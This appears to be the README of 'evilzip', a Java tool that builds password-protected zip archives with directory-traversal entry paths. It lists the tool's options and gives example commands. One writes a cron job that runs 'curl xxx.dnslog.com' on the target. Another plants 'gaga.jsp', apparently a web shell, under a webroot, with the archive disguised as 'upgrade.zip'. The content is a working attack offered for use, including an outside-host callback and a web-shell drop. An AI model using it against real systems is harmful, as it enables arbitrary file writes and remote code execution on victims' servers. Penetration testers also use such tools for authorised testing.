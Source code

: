 # evilzip

## About
evilzip lets you create a zip file(with password) that contains files with directory traversal characters in their embedded path.  Most commercial zip program (winzip, etc) will prevent extraction of zip files whose embedded files contain paths with directory traversal characters.  However, many software development libraries do not include these same protection mechanisms (ex. Java, PHP, etc).  If a program and/or library does not prevent directory traversal characters then evilzip can be used to generate zip files that, once extracted, will place a file at an arbitrary location on the target system.

## 关于项目

原使用的创建恶意压缩包的工具[evilarc](https://github.com/ptoomey3/evilarc)不支持带密码的压缩包,且没法修改,因为其使用的zipfile模块不支持加密码压缩，所以就有了这个项目。在evilarc的基础上新增了一些自己常用的功能，比如仅需一个参数就生成可以穿越到unix系统计划任务的压缩包。

具体参数如下:

```
╭─ fucker ~/Coding/Java/Intellij/evilzip/
╰─ java -jar evilzip.jar -h
Usage: java -jar EvilZip.jar [options]
  Options:
    -f, --file
      File to input archive.
      Default: root
    -p, --path
      Path to include in filename after traversal
      Default: var/spool/cron/
    -pwd, --password
      ZIP file encrypt password.
    -o, --output
      File to output archive.
      Default: evil.zip
    -d, --depth
      Number directories to traverse.
      Default: 8
    -t, --type
      OS platform for archive (win|unix).
      Default: unix
    -c, --cmd
      Command to execute.
    -h, --help
      Show this message
```

## 一些tips

快速生成在unix系统执行命令的压缩包:

```
java -jar evilzip.jar -c "curl xxx.dnslog.com"
```

读取本地的gaga.jsp 让其穿越10层目录最终解压到/wwwroot/xxxx/gaga.jsp 解压密码为update-password 输出的压缩包明文upgrade.zip

```
java -jar evilzip.jar -f gaga.jsp -d 10 -p wwwroot/xxxx/ -o upgrade.zip -t unix -pwd "update-password"
```

大部分参数均带有默认值，不用指定也行。
